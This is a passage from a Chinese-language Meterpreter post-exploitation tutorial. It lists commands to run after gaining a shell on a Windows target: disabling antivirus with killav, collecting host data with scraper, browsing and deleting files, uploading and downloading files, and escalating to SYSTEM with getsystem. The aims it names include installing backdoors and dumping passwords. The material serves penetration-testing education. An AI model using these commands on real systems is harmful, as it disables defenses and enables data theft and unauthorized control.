### **7.3 关闭杀毒软件：**

拿到目标主机的shell后第一件事就是关闭掉目标主机的杀毒软件，通过命令

```apl
run post/windows/manage/killav
```

### **7.4 获取目标主机的详细信息：**

它将目标机器上的常见信息收集起来然后下载保存在本地

```apl
run scraper 
```

### **7.5 访问文件系统：**

Meterpreter支持非常多的文件系统命令（基本跟Linux系统命令类似），一些常用命令如下

```bash
pwd     #查看当前目录
cd      #切换目标目录；
cat     #读取文件内容；
rm      #删除文件；
edit    #使用vim编辑文件
ls      #获取当前目录下的文件；
mkdir   #新建目录；
rmdir   #删除目录； 
```

### **7.6 上传/下载文件：**

下载文件：

```apl
download  file
```

上传文件:

```apl
upload  file 
```

### **7.7 权限提升：**

有的时候，你可能会发现自己的 Meterpreter 会话受到了用户权限的限制，而这将会严重影响你在目标系统中的活动。比如说，修改注册表、安装后门或导出密码等活动都需要提升用户权限，而Meterpreter给我们提供了一个 getsystem 命令，它可以使用多种技术在目标系统中实现提权。

```apl
#自动提权为系统权限
getsystem
#命令可以获取当前用户的信息，可以看到，当我们使用 getsystem进行提权后，用户权限为  NT AUTHORITY\SYSTEM ，这个也就是Windows的系统权限。
getuid
```

注：执行getsystem命令后，会显示错误，但是其实已经运行成功了！
